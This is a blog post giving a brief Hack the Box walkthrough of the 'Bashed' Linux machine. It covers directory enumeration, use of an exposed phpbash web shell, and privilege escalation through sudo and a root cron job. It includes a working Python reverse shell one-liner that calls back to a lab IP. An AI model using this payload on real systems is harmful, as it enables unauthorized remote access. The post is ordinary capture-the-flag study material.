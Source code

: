 ```yaml
---
layout: post
status: publish
published: true
permalink: bashed
title: 'Bashed box on Hack the Box Write up'
author: Jean-Michel Frouin
author_login: jmfrouin
author_email: jm@frouin.me
author_url: http://frouin.me
date: '2020-04-11 09:45:49 +0100'
categories:
- htb
- pentest
- unix
comments: []
---
```

# General Infos

- OS: Linux   
- Difficulty:  Easy   
- Points: 20   
- Release: 09 Dec 2017   
- IP: 10.10.10.68

![MindMap](Bashed.png "Bashed")

## Enumeration

### Ports

- 80/tcp    open     tcpwrapped

	- Apache httpd 2.4.18 (Ubuntu)

### Web

- dirbuster

  jm@kali:~$ dirbuster 
  Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
  Starting OWASP DirBuster 1.0-RC1
  Starting dir/file list based brute forcing
  Dir found: / - 200
  File found: /index.html - 200
  File found: /single.html - 200
  Dir found: /js/ - 200
  File found: /js/jquery.js - 200
  File found: /js/imagesloaded.pkgd.js - 200
  File found: /js/jquery.nicescroll.min.js - 200
  File found: /js/jquery.smartmenus.min.js - 200
  File found: /js/jquery.carouFredSel-6.0.0-packed.js - 200
  File found: /js/jquery.mousewheel.min.js - 200
  File found: /js/jquery.touchSwipe.min.js - 200
  Dir found: /demo-images/ - 200
  File found: /js/jquery.easing.1.3.js - 200
  File found: /js/main.js - 200
  File found: /js/custom_google_map_style.js - 200
  File found: /js/html5.js - 200
  Dir found: /icons/ - 403
  File found: /config.php - 200
  Dir found: /css/ - 200
  Dir found: /images/ - 200
  Dir found: /dev/ - 200
  File found: /css/carouFredSel.css - 200
  File found: /css/clear.css - 200
  File found: /css/common.css - 200
  File found: /dev/phpbash.min.php - 200
  File found: /css/font-awesome.min.css - 200
  File found: /css/sm-clean.css - 200
  File found: /dev/phpbash.php - 200
  Dir found: /php/ - 200
  File found: /php/sendMail.php - 200
  Dir found: /uploads/ - 200
  Dir found: /icons/small/ - 403

	- /dev/phpbash.php
	- /php
	- /php/sendmail.php
	- /dev/phpbash.min.php

## Exploitation

### Using phpbash.php 

## User Flag

### /home/arrexel/user.txt

## Priv Esc

### sudo -l 

### sudo -u scriptmanager bash

### discover /script

### test.txt created by test.py using cron each minute

### Reverse Shell

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.36",5000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

## Root Flag

### cat /root/root.txt

